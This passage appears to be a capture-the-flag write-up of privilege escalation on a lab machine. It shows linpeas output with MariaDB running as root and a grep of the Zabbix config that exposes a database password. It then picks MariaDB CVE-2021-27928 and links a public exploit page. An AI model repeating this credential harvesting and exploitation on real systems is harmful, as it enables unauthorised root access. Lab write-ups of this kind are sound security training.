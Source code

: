 # Escalating privileges [ root ]

### linpeas.sh

```bash
root        1279  0.0  0.0   2608  1856 ?        S    Nov13   0:00 /bin/sh /usr/bin/mysqld_safe
root        1431  0.7  3.7 1727148 150636 ?      Sl   Nov13   6:13  _ /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/m
ysqld.pid --socket=/var/run/mysqld/mysqld.sock
```
- Hmmm, MySQL is running as root, let's enumerate 

- So the DB information was stored in `/etc/zabbix/zabbix_server.conf`

```bash

ipmi-svc@shibboleth:/etc$ cat /etc/zabbix/zabbix_server.conf | grep -C 2 -i "password"
<zabbix/zabbix_server.conf | grep -C 2 -i "password"
DBUser=zabbix

### Option: DBPassword
#	Database password.
#	Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh

```
- Now we have the username and password [ zabbix : bloooarskybluh ]

### MySQL enumeration

- As `ipmi-svc` user was not in the sudoers list GTFO bins is not helpful

```bash
ipmi-svc@shibboleth:/etc$ mysql -V
mysql -V
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```
- So the version is : 10.3.25

![image](https://user-images.githubusercontent.com/56447720/141776051-2b5f54fd-50e6-4a8d-8771-d51f34fa1aa0.png)

- Link : https://www.cvedetails.com/vulnerability-list/vendor_id-12010/Mariadb.html

- The first CVE has 9.0 score [ CVE-2021-27928 ]
- Let's get the root

![image](https://user-images.githubusercontent.com/56447720/141776421-4de72d0d-1aca-410f-840f-df8b7926803a.png)

- Link : https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html
